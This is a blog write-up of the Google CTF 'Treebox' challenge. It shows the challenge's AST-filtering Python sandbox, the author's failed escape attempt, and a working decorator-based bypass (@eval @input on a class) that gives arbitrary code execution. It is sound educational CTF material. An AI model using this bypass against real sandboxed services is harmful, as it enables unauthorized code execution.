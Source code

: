 ```yaml
---
title: "What I learned From Google Ctf"
date: 2022-07-03T21:02:55-05:00
draft: false
---
```


## Treebox

The challenge description was:
````
I think I finally got Python sandboxing right.
````

The challenge source code was.

````
#!/usr/bin/python3 -u
#
# Flag is in a file called "flag" in cwd.
#
# Quote from Dockerfile:
#   FROM ubuntu:22.04
#   RUN apt-get update && apt-get install -y python3
#
import ast
import sys
import os

def verify_secure(m):
  for x in ast.walk(m):
    match type(x):
      case (ast.Import|ast.ImportFrom|ast.Call):
        print(f"ERROR: Banned statement {x}")
        return False
  return True

abspath = os.path.abspath(__file__)
dname = os.path.dirname(abspath)
os.chdir(dname)

print("-- Please enter code (last line must contain only --END)")
source_code = ""
while True:
  line = sys.stdin.readline()
  if line.startswith("--END"):
    break
  source_code += line

tree = compile(source_code, "input.py", 'exec', flags=ast.PyCF_ONLY_AST)
if verify_secure(tree):  # Safe to execute!
  print("-- Executing safe code:")
  compiled = compile(source_code, "input.py", 'exec')
  exec(compiled)
````
My first instict was to use decorators, but I wasn't sure that would allow me to escape the call AST check. I then looked into the [AST](https://docs.python.org/3/library/ast.html) documentation to see if there was anything useful. I missed that exceptions could call code so I tried to use `__getitem__` to call print.

````
class A:
    def __getitem__(self,item):
        pass

a = A()
a.__getitem__ = print
````

I ran out of time trying to get my escape to work. Afterwards, I read through writeups and learned that you can use decorators to bypass the sandbox.

````
@eval
@input
class A: 0
````

This example uses decorators around a class to allow us to execute arbitrary code.